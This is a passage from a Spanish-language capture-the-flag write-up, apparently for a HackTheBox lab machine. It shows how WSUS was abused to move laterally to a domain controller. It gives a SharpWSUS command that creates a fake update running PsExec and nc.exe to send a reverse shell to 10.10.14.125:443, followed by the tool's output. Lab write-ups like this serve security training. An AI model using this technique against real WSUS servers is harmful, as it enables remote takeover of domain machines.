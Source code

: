 El segundo paso sería inspeccionar para ver que equipos tenemos a nuestro alcance para poder hacer el movimiento lateral, en este caso sabemos que nuestro "target" es dc.outdated.htb

Parece ser que WSUS solo confía de binarios firmados por Microsoft, así que podemos utilizar `PsExec64.exe` para poder ejecutar nuestro comando deseado.

Sabiendo esto, podemos crear una tarea de actualización para que se nos mande una reverse shell a nuestra IP.
```shell
.\SharpWSUS.exe create /payload:"C:\ProgramData\ps.exe" /args:" -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443" /title:"pwnedbypointed"

...
*] Action: Create Update                                                                                                                                     
[*] Creating patch to use the following:                                                                                                                      
[*] Payload: ps.exe                                                                                                                                           
[*] Payload Path: C:\ProgramData\ps.exe                                                                                                                       
[*] Arguments:  -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443                                                                           
[*] Arguments (HTML Encoded):  -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443                                                            
                                                                                                                                                              
################# WSUS Server Enumeration via SQL ##################                                                                                          
ServerName, WSUSPortNumber, WSUSContentLocation                                                                                                               
-----------------------------------------------                                                                                                               
DC, 8530, c:\WSUS\WsusContent                                                                                                                                 
                                                                                          
ImportUpdate                                                                              
Update Revision ID: 46                                                                    
PrepareXMLtoClient                                                                        
InjectURL2Download                                                                        
DeploymentRevision                                                                        
PrepareBundle                                                                             
PrepareBundle Revision ID: 47                                                             
PrepareXMLBundletoClient                                                                  
DeploymentRevision                                                                        
                                                                                          
[*] Update created - When ready to deploy use the following command:                      
[*] SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"
                                                                                          
[*] To check on the update status use the following command:                              
[*] SharpWSUS.exe check /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN                                        
                                                                                                                
[*] To delete the update use the following command:                                            
[*] SharpWSUS.exe delete /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"                                                                     

[*] Create complete
```
